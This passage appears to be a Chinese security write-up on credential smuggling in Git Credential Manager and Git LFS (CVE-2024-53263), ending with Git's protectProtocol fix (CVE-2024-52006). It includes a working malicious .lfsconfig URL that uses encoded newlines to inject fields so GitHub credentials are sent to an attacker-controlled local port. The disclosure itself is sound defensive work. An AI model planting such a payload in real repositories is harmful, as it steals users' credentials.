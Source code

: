 Git Credential Manager是.NET开发的跨平台凭证助手，其问题源于StreamReader类的特性。在读取凭证协议消息时，使用以下代码：  
  
src/shared/Core/StandardStreams.cs 第36-47行(https://github.com/git-ecosystem/git-credential-manager/blob/3c28096588f549cb46f36b552390514356830abe/src/shared/Core/StandardStreams.cs#L36-L47)  
```
        public TextReader In
        {
            get
            {
                if (_stdIn == null)
                {
                    _stdIn = new StreamReader(Console.OpenStandardInput(), EncodingEx.UTF8NoBom);
                }

                return _stdIn;
            }
        }

```  
  
由于StreamReader.ReadLine方法将\n、\r和\r\n都视为换行符，攻击者可以通过类似GitHub Desktop案例的方式实施凭证走私攻击。  
## Git LFS换行注入导致凭证泄漏（CVE-2024-53263）  
  
虽然Git客户端本身具备换行符防护机制，但Git LFS（大文件存储扩展）在构造凭证协议消息时存在缺陷：  
  
creds/creds.go 第61-76行https://github.com/git-lfs/git-lfs/blob/a577e336ebdccfd312b6006c880f010b5d3fe796/creds/creds.go#L61-L76)  
```
func bufferCreds(c Creds) *bytes.Buffer {
    [...]
    buf.Write([]byte(k))
    buf.Write([]byte("="))
    buf.Write([]byte(item))
    buf.Write([]byte("\n"))
    [...]
}

```  
  
该函数未对换行符进行过滤。通过在仓库的.lfsconfig文件中设置如下恶意URL：  
```
[lfs]
        url = http://%0Ahost=github.com%0Aprotocol=https%0A@localhost:13337/

```  
  
Git LFS会向凭证助手发送包含换行符的消息，导致凭证助手返回github.com的凭证给攻击者控制的localhost:13337。  
## Git的纵深防御补丁（CVE-2024-52006）  
  
为缓解回车符走私问题，Git新增了credential.protectProtocol配置项（默认启用），拒绝包含回车符的URL：  
  
credential.c 第403-406行(https://github.com/git/git/blob/757161efcca150a9a96b312d9e780a071e601a03/credential.c#L403-L406)  
```
if (c->protect_protocol && strchr(value, '\r'))
    die("credential value for %s contains carriage return\n"
        "If this is intended, set `credential.protectProtocol=false`",
        key);

```  
  